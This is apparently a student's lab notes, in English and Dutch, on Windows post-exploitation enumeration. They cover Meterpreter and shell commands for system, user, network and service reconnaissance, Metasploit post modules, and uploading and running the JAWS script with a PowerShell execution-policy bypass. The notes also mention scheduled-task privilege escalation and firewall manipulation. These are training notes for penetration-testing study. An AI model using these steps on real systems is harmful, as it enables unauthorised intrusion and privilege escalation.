 ![[Pasted image 20230917164125.png]]
## Windows Local Enumeration 

##### Enumerating System Information 

- Information to gather: 
	- what OS is running?
	- What OS version? 
	- Hostname, 
	- OS Name (e.g. Windows 7, 8)
	- OS Build & service Pack (e.g.Windows 7 SP1 7600)
	- OS Architecture (x64/x86)
		- if the architecture is 32bit then that means that you need to compile a 32bit executable
		- meterpreter payload with msfvenom you need to generate a 32bit payload or 64bit payload
	- Installed updates/Hotfixes 


Meterpreter session: 
- `getuid`: Geeft het gebruikers-ID (UID) weer van de huidige gebruiker. Dit kan helpen bij het bepalen van de rechten van de gebruiker.
- `sysinfo`: Levert gedetailleerde informatie over het besturingssysteem en de hardware van het gecompromitteerde systeem. 
- `cd system32` (opgeslagen in `C:\Windows\System32`): Navigeert naar de systeemmap van Windows, wat belangrijk kan zijn om systeemgerelateerde bestanden en instellingen te verkennen.
    - `cat eula.txt`: Toont de inhoud van het "eula.txt"-bestand binnen de System32-map, wat mogelijk nuttige informatie bevat over licenties en gebruik
- get a command shell:  `shell` 
	-  `hostname` 
	- `systeminfo` 
	- more info about hotfixes: 
	  `wmic qfe get Caption,Description,HotFIxID,InstalledOn` Toont details over geïnstalleerde hotfixes en patches op het systeem


##### Enumerating Users & Groups

information we are looking for: 
- Current users & priviliges 
- additional user information 
- Other users on the system
- Groups
- Members of the built-in administrator group 

Meterpreter session: 
- `getuid`
- `getprivs`
- currently logged in users: msf module:` use post/windows/gather/enum_logged_on_users ` 
	- set to meterpreter session - run 

command shell session
- `shell`: Biedt toegang tot een interactieve shell op het gecompromitteerde systeem voor verschillende taken.
- `whoami`: Geeft de naam van de huidige gebruiker weer, wat handig is om te weten wie is ingelogd.
- `whoami /priv`: Toont de privileges van de huidige gebruiker, essentieel om de acties die de gebruiker kan ondernemen te begrijpen.
- `query user`: Lijst van ingelogde gebruikers op het systeem, nuttig om andere actieve gebruikers te identificeren.
- `net user administrator`: Geeft informatie over het administrator-account, handig om te weten of het is ingeschakeld en mogelijke kwetsbaarheden te identificeren.
- `net user guest`: Toont informatie over het gastaccount, handig om te weten of het account is ingeschakeld en of het een zwakke plek vormt.
- `net localgroup`: Lijst van lokale gebruikersgroepen op het systeem, helpt bij het identificeren van andere groepen met specifieke rechten.
- `net localgroup administrators`: Toont de leden van de 'Administrators'-groep, belangrijk om te weten wie beheerdersrechten heeft op het systeem


#####  Enumerating Network Information 


Information we are looking for 

- Current IP address & network adapter
- Internal networks 
- TCP/UDP services running and their respective ports 
- Other hosts on the network 
- Routing table
- Windows Firewall state 


Command shell session:
- `shell` (Interactieve toegang tot het systeem om verdere aanvallen uit te voeren.)
- `ipconfig` (Identificeert netwerkconfiguratie voor lateralisatie en informatie over het systeem.)
- `ipconfig /all` (Biedt gedetailleerde netwerkinformatie voor bredere verkenning van het netwerk.)
- `route print` (Onthult routeringstabellen om netwerkverkeer te begrijpen.)
- `arp -a` (Toont IP-naar-MAC-mapping voor het identificeren van aangesloten apparaten.)
- `netstat -ano` (Geeft actieve verbindingen weer en helpt bij het vinden van kwetsbaarheden.)
  
![[Pasted image 20230917174525.png]] 
	our meterpreter session 
	
- `netsh firewall show state` (Onthult de firewallstatus voor potentiële bypassing of regelwijzigingen.)
- `netsh advfirewall firewall` (Beheer van geavanceerde firewallregels om beveiliging te verminderen of verkeer te manipuleren.)

- `netsh firewall show state` 
- `netsh advfirewall firewall





##### Enumerating Processes & Services 

**Process** is an instance of a running executable (.exe) or program -  (launch google chrome)
A **service** is a process which runs in the background and does not interact with the desktop - (not end-user applications or third party applications)

Info we are looking for: 
- Running processes & services 
- Scheduled tasks 


meterpreter:
- `ps` 
	- user column shows priviliges associated with specific processes. 
	- it will show priviliges associated with the user that you hacked 
- `pgrep explorer.exe ` (when no process id is shown it means that the process is not running)
- `migrate process_id`
- `getuid`
- `sysinfo`

Command shell session
- `shell` 
- `net start` (services are listed not processes)
- `wmic service list brief` (list running services)
- `tasklists /SVC` (process running and services running under a process)
- `schtasks /query /fo LIST /v` (scheduled task that have been configured to run on target)
	- scheduled task can be exploited to elevate priviliges, scheduled that are running with nt authority system priviliges, we can let it executable that we specify we can elevate our priviliges. 



##### Automating Windows Local Enumeration  


Metapsloit 
- nmap -sV -p 5985 ip (target WinRM protocol)
- metasploit module winrm_script_exec 
	- set FORCE_VBS ture 
	
	- `sysinfo` 
	- `getuid`
	- `show_mount`

- metasploit module win_privs (post-exploitation module so set session)
- metasploit module enum_logged_on_users (post-exploitation module so set session)
- metasploit module checkvm (post-exploitation module so set session)
- metasploit module enum_applications (post-exploitation module so set session)
- metasploit module enum_computers  (post-exploitation module so set session)
- metasploit module enum_patches (post-exploitation module so set session)
- metasploit module enum_shares (post-exploitation module so set session)


- WIndows Local Enum script
	- **JAWS** (Just another Windows Enum script) is a powershell script quickly identify potential privilege escalation vectors on Windows Systems. It is written using Powershell 2.0 so should run on every Windows version Windows 7
	- https://github.com/411Hall/JAWS

jaws.enum.ps1 script (copy the code and paste in the lab-environment, (control shift,alt opens clipboard) paste in textfile, save as jaws-enum.ps1)
- open meterpreter session
- navigate to root of C drive: `cd C:\\`
- `dir` 
- ALWAYS save your files you upload to target in temp directory (if the temp directory does not exit `mkdir Temp`) 
- `cd Temp`
- `upload /root/Desktop/jaws-enum.ps1`
- `shell`
- `dir`
- execute powershell from within command shell session: `powershell.exe -ExecutionPolicy BYpass -File .\jaws-enum.ps1 -OutputFilename JAWD-Enum.txt `
	- - `powershell.exe`: Launches PowerShell.
	- `-ExecutionPolicy Bypass`: Temporarily bypasses execution policies (default users are not allowed the execute powershell.
	- `-File .\jaws-enum.ps1`: Executes the script "jaws-enum.ps1" in the current directory.
	- `-OutputFilename JAWD-Enum.txt`: Specifies the output file name for the script's output. Contains results of the script executed. 
- download the file to kali linux system: control c to stop the command shell and get back to meterpreter session
	- `ls`
	- `download jaws-enum.txt` will download to root of kali linux system 


 





























